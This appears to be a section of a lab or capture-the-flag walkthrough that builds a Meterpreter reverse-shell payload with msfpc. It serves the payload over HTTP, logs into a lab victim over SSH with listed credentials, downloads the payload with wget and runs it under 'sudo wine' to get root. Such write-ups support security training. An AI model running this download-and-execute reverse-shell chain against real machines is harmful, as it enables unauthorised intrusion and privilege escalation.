





7.1 Create a wine payload
a) On your Kali Linux Machine type the following command:
$ msfpc windows 192.168.12.28
Output:

Pay attention to the command “msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-443-exe.rc'”
$ python2 -m SimpleHTTPServer 8080
Output:

b) Open another terminal on your Kali Linux Machine and typee these commands.
User: “sunrise”
Password: “thefutureissobrightigottawearshades”
$
ssh
sunrise@192.168.12.31
$
cd
/
tmp
c) Get the payload from your Kali Linux Machine.
Remember your in your Victim Machinee Shell.
$
wget
http
://
192.168.12.28
:
8080
/
windows-meterpreter-staged-reverse-tcp-443.exe
Output:

d) On the Kali Linux Machine run the command from point "a:.
$ msfconsole -q -r
'windows-meterpreter-staged-reverse-tcp-443-exe.rc'
Output:

e) On the Victim Machine shell run the payload.
$
sudo
wine windows-meterpreter-staged-reverse-tcp-443.exe
Output on the Kali Linux Machine Shell:

We got root access.
Index